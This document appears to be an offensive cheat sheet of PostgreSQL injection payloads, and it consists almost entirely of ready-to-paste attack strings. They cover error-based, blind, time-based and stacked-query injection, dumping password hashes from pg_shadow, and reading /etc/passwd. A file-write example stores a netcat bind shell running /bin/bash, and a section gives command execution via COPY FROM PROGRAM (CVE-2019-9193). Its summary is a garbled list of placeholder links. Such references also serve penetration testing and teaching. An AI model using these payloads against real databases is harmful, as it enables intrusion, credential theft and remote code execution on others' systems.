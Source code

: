 <h1>PostgreSQL injection</h1>

<h2>Summary</h2>

somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>



<h2>PostgreSQL Comments</h2>

```
--
/**/
```

<h2>PostgreSQL Version</h2>

```
SELECT version()
```

<h2>PostgreSQL Current User</h2>

```sql
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```

<h2>PostgreSQL List Users</h2>

```sql
SELECT usename FROM pg_user
```

<h2>PostgreSQL List Password Hashes</h2>

```sql
SELECT usename, passwd FROM pg_shadow 
```

<h2>PostgreSQL List Database Administrator Accounts</h2>

```sql
SELECT usename FROM pg_user WHERE usesuper IS TRUE
```

<h2>PostgreSQL List Privileges</h2>

```sql
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
```

<h2>PostgreSQL Database Name</h2>

```sql
SELECT current_database()
```

<h2>PostgreSQL List Database</h2>

```sql
SELECT datname FROM pg_database
```

<h2>PostgreSQL List Tables</h2>

```sql
SELECT table_name FROM information_schema.tables
```

<h2>PostgreSQL List Columns</h2>

```sql
SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
```

<h2>PostgreSQL Error Based</h2>

```sql
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
```

<h2>PostgreSQL Blind</h2>

```sql
' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO
```

<h2>PostgreSQL Time Based</h2>

```sql
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

<h2>PostgreSQL Stacked Query</h2>

```sql
Use a semi-colon ";" to add another query
http://host/vuln.php?id=injection';create table NotSoSecure (data varchar(200));--
```

<h2>PostgreSQL File Read</h2>

```sql
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
```
NOTE: ``pg_read_filedoesn't accept the/` character.
```sql
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;
```

<h2>PostgreSQL File Write</h2>

```sql
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

(#some-markdown-heading)
<h2>PostgreSQL Command execution</h2>
<h3>CVE-2019–9193</h3>

Can be used from Metasploit if you have a direct access to the database, otherwise you need to execute manually the following SQL queries.

```sql
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```
